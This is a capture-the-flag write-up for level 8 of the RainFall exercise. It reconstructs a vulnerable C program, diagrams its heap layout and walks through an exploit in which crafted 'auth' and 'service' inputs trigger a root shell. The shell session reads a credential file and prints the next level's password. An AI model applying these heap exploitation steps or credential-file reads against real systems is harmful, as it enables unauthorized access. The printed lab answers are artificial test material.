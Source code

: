 # Level 8

<h3>source.c</h3>

```console
char	*auth = NULL;
char	*service = NULL;

int main(int argc, char** argv) {
  char str[128];

  while(1) {
    printf("%p, %p \n", edx, ecx);

    if (fgets(str, 128, stdin) == 0) {
      break;
    }
    if (strncmp(str, "auth ", 5) == 0) {
      auth = malloc(4);
      auth[0] = 0;
      if (strlen(str + 5) <= 30) {
        strcpy(auth, str + 5);
      }
    }
    if (strncmp(str, "reset", 5) == 0) {
      free(auth);
    }
    if (strncmp(str, "service", 6) == 0) {
      service = strdup(str + 7);
    }
    if (strncmp(str, "login", 5) == 0) {
      if (auth[32] != 0) {
        system("/bin/sh");
      }
      else {
        fwrite("Password:\n", 1, 10, stdout);
      }
    }
  }

  return (0);
}
```

<h3>Analysis</h3>

For this program, the harder part would be the long `main()` in the asm form

After reserving it to c code, we can see that it is doing a infinite loop that only break if `fgets()` returns 0

Each loop will start by printing the address of the global variable `auth` and `service`

Next it will check for the input and do action according to the input given

Our goal this time will be to make `auth[32] != 0` so that it will call `system("/bin/sh")`

<h3>Exploit</h3>

```console
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

Base on the analysis above, lets visualize the state of the `heap`

```console

1st malloc call (auth = malloc(4))

            +-----------+                                -> 8 bytes reserve for auth, even if the program only ask for 4 bytes memory,
            |   auth    |                                   malloc will give the memory base by the multiplier of 8,
    +-------------------+                                   so it reserve 8 bytes instead, at this point, we could possibly write
    | M | B | 8 bytes   |                                   `auth 12345678123456781234567812345678` as the next line will do strcpy on the 5th input onward
    +-------------------+                                   but there is a condition that we could only copy if the len is 30bytes, so this plan won't work 
0x804a008__/

2nd malloc call (service = strdup(str + 7))

            +-----------+   +-----------+
            |   auth    |   |  service  |                -> n bytes reserve for service requested by strdup,
    +-------------------------------------------------+     here we can see that `auth[32]` will landed somewhere in the memory area reserve for service
    | M | B | 8 bytes   | B | bytes request by strdup |     8 bytes (auth own area) + 8 bytes (service block metadata) = 16 bytes,
    +-------------------------------------------------+     so we need to write another 16 bytes into service memory area so that `auth[32]` will be filled
0x804a008__/    0x804a018__/

```

```console
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```